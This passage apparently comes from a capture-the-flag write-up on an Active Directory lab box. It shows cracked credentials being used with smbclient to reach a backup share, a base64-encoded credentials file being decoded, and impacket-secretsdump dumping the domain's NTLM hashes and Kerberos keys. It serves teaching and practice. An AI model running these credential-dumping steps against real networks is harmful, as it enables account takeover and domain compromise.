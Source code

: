 :::tip 0reoByte TIP

_"if you want to look back at a hash cracked by john without the john command you could check the pots file in the .john directory in your home dir (0reoByte)"_

:::

## ACCESS

Now that we have a valid username and password we cracked, we enumerate again with the credentials and see what we can get

### smbclient

Let's use `smbclient` to access the `backup` share we found from before:

`$ smbclient -L //$AD_IP/$SHARE -U $username -P $password`

```bash
└─$ smbclient //10.10.81.46/backup -U svc-admin
Enter WORKGROUP\svc-admin's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Apr  5 07:08:39 2020
  ..                                  D        0  Sun Apr  5 07:08:39 2020
  backup_credentials.txt              A       48  Sun Apr  5 07:08:53 2020

                8247551 blocks of size 4096. 3578209 blocks available
smb: \>
```

Download and decode the credentials found in `backup_credentials.txt`:

```bash
$ echo YmFja3VwQHNwb*************XAyNTE2ODYw | base64 -d
backup@*********.local:*************
```

### impacket scripts

Use `impacket-secretsdump` to dump all secrets from the AD via the valid backup credentials you just found:

`$ impacket-secretsdump -just-dc-user $username $domain/$username:$password@$AD_IP`

_note: `$username` and `$domain` here are the ones from the credentials file we decrypted._

```bash
└─$ impacket-secretsdump -just-dc-user backup *********.local/backup:************* @10.10.81.46
Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
[*] Kerberos keys grabbed
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
[*] Cleaning up...
```
